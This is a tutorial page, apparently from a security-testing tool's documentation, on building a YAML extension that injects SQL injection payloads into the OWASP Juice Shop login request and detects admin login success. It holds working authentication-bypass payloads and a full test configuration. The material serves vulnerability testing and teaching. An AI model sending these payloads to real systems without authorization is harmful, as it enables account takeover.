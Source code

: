 [link-app-examination]:     app-examination.md
[link-points]:              ../points/intro.md
[link-using-extension]:     ../using-extension.md
[link-meta-info]:           ../create-extension.md#structure-of-the-meta-info-section

[doc-collect-phase]:        ../phase-collect.md
[doc-match-phase]:          ../phase-match.md
[doc-modify-phase]:         ../phase-modify.md
[doc-generate-phase]:       ../phase-generate.md
[doc-detect-phase]:         ../detect/phase-detect.md

[link-juice-shop]:          https://www.owasp.org/index.php/OWASP_Juice_Shop_Project


#   Creation of Modifying Extension

The extension described in this document will modify an incoming baseline request to inject some payload into. These payloads could lead to exploitation of the SQLi vulnerability in the [“OWASP Juice Shop”][link-juice-shop] target application's login form.
  
##  Preparations

It is highly recommended to take these steps prior to creation of a FAST extension:
1.  [Investigate the behavior of the target application][link-app-examination] you are creating the extension for.
2.  [Read the principles of point construction for an extension][link-points].


##  Constructing the Extension

Create a file that describes the extension (e.g., `mod-extension.yaml`) and populate it with the required sections:

1.  [**The `meta-info` section**][link-meta-info].

    Prepare the description of the vulnerability that the extension will try to detect.
    
    * vulnerability header: `OWASP Juice Shop SQLi (mod extension)`
    * vulnerability description: `Demo of SQLi in OWASP Juice Shop (Admin Login)`
    * vulnerability type: SQL injection
    * vulnerability threat level: high
    
    The corresponding `meta-info` section should look as follows:
    
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (mod extension)'
      - description: 'Demo of SQLi in OWASP Juice Shop (Admin Login)'
    ```
    
2.  **The `collect` section, the [Collect phase][doc-collect-phase]**.
    
    The REST API `POST /rest/user/login` method is called upon trying to log in.
    
    There is no need to create test requests for each of the baseline requests for logging in that were sent to the API as the testing for vulnerabilities will be performed the same way for each piece of data passed in the POST request.
    
    Set up the extension in such a way that it executes once when the API receives the request for logging in. To do so, add the Collect phase with the uniqueness condition to the extension.

    The `/rest/user/login` request to the API for logging in comprises:

    1.  the first part of the path with the `rest` value,
    2.  the second part of the path with the `user` value, and
    3.  the `login` action method
    
    The corresponding points that refer to these values are the following:

    1.  `PATH_0_value` for the first part of the path
    2.  `PATH_1_value` for the second part of the path
    3.  `ACTION_NAME_value` for the `login` action method
    
    If you add the condition that the combination of these three elements must be unique, then the extension will only run for the first `/rest/user/login` baseline request to the API (such request will be treated as unique one, and all the following requests to the API for logging in will not be unique). 
    
    Add the corresponding `collect` section to the extension YAML file. 
    
    ```
    collect:
      - uniq:
        - [PATH_0_value, PATH_1_value, ACTION_NAME_value]
    ```

3.  **The `match` section, the [Match phase][doc-match-phase]**.
    
    It is necessary to check whether the incoming baseline requests is really the request to the API for logging in, because the extension we are creating will exploit the vulnerabilities that the login form contains.
    
    Set up the extension so that it only runs if a baseline request is targeted to the following URI: `/rest/user/login`. Add the Match phase that checks whether the received request contains the required elements. This can be done using the following `match` section:

    ```
    match:
      - PATH_0_value: 'rest'
      - PATH_1_value: 'user'
      - ACTION_NAME_value: 'login'
    ```

4.  **The `modify` section, the [Modify phase][doc-modify-phase]**.
    
    Let us suggest that it is required to modify the baseline request to reach the following goals:
    * To clear the `Accept-Language` HTTP header value (this value is not required for vulnerability to be detected).
    * To replace the real values of the `email` and `password` parameters with the neutral `dummy` values.
    
    Add to the extension the following `modify` section that alters the request to meet the goals described above:
    
    ```
    modify:
      - "HEADER_ACCEPT-LANGUAGE_value": ""
      - "POST_JSON_DOC_HASH_email_value": "dummy"
      - "POST_JSON_DOC_HASH_password_value": "dummy"
    ```
    
    !!! info "Request elements description syntax"
        Because the request data that is contained in the JSON format is stored in `<key: value>` pairs, the point that refers to the `email` element value will look as shown above. The point that refers to the `password` element value has a similar structure.
        
        To see detailed information about constructing the points, proceed to this [link][link-points].
 
5.  **The `generate` section, the [Generate phase][doc-generate-phase]**.

    It is known that there are two payloads that should replace the value of the `email` parameter in the baseline request in order to exploit the SQL injection vulnerability in the target application:
    * `'or 1=1 --`
    * `admin@juice-sh.op'--`
        
    !!! info "Inserting the payload into the modified request"
        The payload will be inserted into the previously modified request, because the extension contains the `modify` section. Thus, after inserting the first payload into the `email` field, the test request data should look as follows:
    
        ```
        {
            "email": "'or 1=1 --",
            "password":"dummy"
        }
        ```
    
        Because any password can be used to log in successfully due to the chosen payloads, it is not necessary to insert the payload into the password field, which will have a `dummy` value after the Modify phase is applied.
    
        Add the `generate` section that will create the test requests that meet the requirements discussed above.
    
        ```
        generate:
          - payload:
            - "'or 1=1 --"
            - "admin@juice-sh.op'--"
          - into: "POST_JSON_DOC_HASH_email_value"
          - method:
            - replace
        ```

6.  **The `detect` section, the [Detect phase][doc-detect-phase]**.
    
    The following conditions indicate that the user authentication with administrator's rights was successful:
    * The presence of the shopping cart identifier parameter with the `1` value in the response body. The parameter is in the JSON format and should look the following way:
    
        ```
        "bid":1
        ```
    
    * The presence of the user email parameter with the `admin@juice-sh.op` value in the response body. The parameter is in the JSON format and should look the following way:
    
        ```
         "umail":"admin@juice-sh.op"
        ```
    
    Add the `detect` section that checks whether the attack was successful according to the conditions described above.
    
    ```
    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```
    
!!! info "Escaping the special symbols"
    Remember to escape the special symbols in the strings.

##  Extension File

Now the `mod-extension.yaml` file contains the complete set of the sections required for the extension to operate. The listing of the file's content is below:

??? info "mod-extension.yaml"
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (mod extension)'
      - description: 'Demo of SQLi in OWASP Juice Shop (Admin Login)'

    collect:
      - uniq:
        - [PATH_0_value, PATH_1_value, ACTION_NAME_value]

    match:
      - PATH_0_value: 'rest'
      - PATH_1_value: 'user'
      - ACTION_NAME_value: 'login'

    modify:
      - "HEADER_ACCEPT-LANGUAGE_value": ""
      - "POST_JSON_DOC_HASH_email_value": "dummy"
      - "POST_JSON_DOC_HASH_password_value": "dummy"

    generate:
      - payload:
        - "'or 1=1 --"
        - "admin@juice-sh.op'--"
      - into: "POST_JSON_DOC_HASH_email_value"
      - method:
        - replace

    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```

##  Using Extension

For detailed information about how to use the created expression, read [this document][link-using-extension]. 